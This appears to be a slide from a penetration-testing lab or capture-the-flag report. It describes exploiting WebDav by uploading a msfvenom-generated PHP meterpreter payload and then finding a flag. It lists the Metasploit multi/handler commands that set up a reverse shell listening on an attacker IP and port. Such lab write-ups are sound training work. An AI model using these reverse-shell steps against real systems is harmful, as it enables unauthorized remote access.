

# Exploitation:WebDav
01

02

03

Tools & Processes
I used Metasploit to exploit WebDav and generated a shell.php meterpreter payload using msfvenom. The payload was uploaded to the site to open a meterpreter session. The compromises machine initiated the connection while the kali box remained open listening for connections

Achievements
I was able to navigate to the secret directory and find the flag.

To start listening on port 4444 and open reverse shell via meterpreter (Metasploit console’s multi/handler exploit):

Command:
Use exploit/multi/handler
Set payload php/meterpreter/reverse_tcp
Set LHOST 192.168.1.105
Set LPORT 4444
exploit